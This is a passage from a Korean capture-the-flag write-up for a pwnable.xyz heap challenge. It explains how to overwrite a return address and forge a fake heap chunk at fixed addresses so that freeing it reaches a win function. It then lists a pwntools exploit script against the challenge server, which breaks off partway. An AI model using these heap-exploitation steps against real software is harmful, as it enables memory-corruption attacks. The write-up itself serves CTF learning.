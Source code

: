**0x601058**을 청크 헤더로 시작하여 size, top chunk 부분을 각각 정상 buf의 청크 크기에 맞게 넣으면 된다. 그리고 해당 실질 데이터 영역인 **0x601060**을 free 시키면 끝이다. (prev_size는 0이므로 size부터 입력해도됨)

<br>

위의 설명을 요약하면 다음과 같다.

1. ->2  :  출력되는 주소를 이용하여 ret의 주소를 구한다
2. ->1  :  buf를 ret의 주소로 덮기 위하여 아무값*8 + ret 주소를 입력한다
3. ->3  :  buf가 ret로 덮힌다
4. ->1  :  win 주소(8바이트) + 아까만든 말한 가짜청크를 만들기 위한 주소 입력(0x601058)
5. ->3  :  ret로 덮힌 부분이 다시 0x601058으로 덮힌다
6. ->1  :  size와 Top 청크를 만들기 위해 0x51(8바이트) + 0x6010a8(8바이트)를 입력한다.

               (top 청크가 위치하는 곳이 0x6010a8이므로, 다음 입력에 Top 청크 입력을 위함)

7. ->3  :  0x601058으로 덮힌 부분이 다시 0x6010a8로 덮힌다.
8. ->1  :  탑 청크 0x20fb1(8바이트) + 만든 청크의 free 시킬 주소(0x601060) 입력
9. ->3  :  0x6010a8으로 덮힌 부분이 다시 0x601060으로 덮힌다
10. ->a  :  비정상적 입력을 통하여 while문을 빠져나와 free되게한다.

 <br><br>

### 3. 풀이

최종 익스코드는 다음과 같다

    from pwn import *
    context.log_level = 'debug'
    p=remote("svc.pwnable.xyz",30005)
    #p = process("./challenge")
    #gdb.attach(p)
    
    p.recvuntil("> ")
    p.sendline("2")
    buf_addr=int(p.recv(14),16)
    log.info(hex(buf_addr))
    
    p.recvuntil("> ")
    p.sendline("1")
    
    #p.recvuntil("")
    p.send("a"*8+p64(buf_addr+0x58))
    
    
    p.recvuntil("> ")
    p.sendline("3")
    
    p.recvuntil("> ")
    p.sendline("1")
    p.send(p64(0x400a3e)+p64(0x601058)) # win addr + fake chunk
    
    p.recvuntil("> ")
    p.sendline("3")
    
    p.recvuntil("> ")
    p.sendline("1")
    p.send(p64(0x51)+p64(0x6010a8))
    